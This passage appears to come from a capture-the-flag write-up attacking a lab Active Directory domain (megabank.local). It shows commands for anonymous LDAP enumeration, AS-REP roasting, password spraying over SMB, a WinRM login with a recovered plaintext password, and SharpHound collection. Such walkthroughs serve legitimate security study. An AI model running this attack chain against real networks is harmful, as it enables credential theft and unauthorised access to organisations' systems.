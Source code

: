 ```powershell
ldapsearch -x -H ldap://$IP -D '' -w '' -b "DC=megabank,DC=local" 
```

Anonymous Bind is enabled but I couldn’t find anything interesting.

## Initial Attack Vectors

### AS-REP Roasting

```bash
GetNPUsers.pymegabank.local/ -dc-ip $IP -no-pass -usersfile users
```

![image.png](image%206.png)

### Password Spraying

```bash
sudo nxc smb $IP -u users -p users --continue-on-success
```

![image.png](image%207.png)

## Credentialed Enum as SABatchJobs

I found `azure.xml` file in `mhope's` directory.

![image.png](image%208.png)

![image.png](image%209.png)

Password Spraying:

![image.png](image%2010.png)

## Shell as mhope

```bash
sudo nxc winrm $IP -u mhope -p '4n0therD4y@n0th3r$'
```

![image.png](image%2011.png)

**Enumeration - BloodHound**

```powershell
upload SharpHound.exe
.\SharpHound.exe -c All --zipfilename monteverde
```

![image.png](image%2012.png)

We are a member of `Azure Admins`.
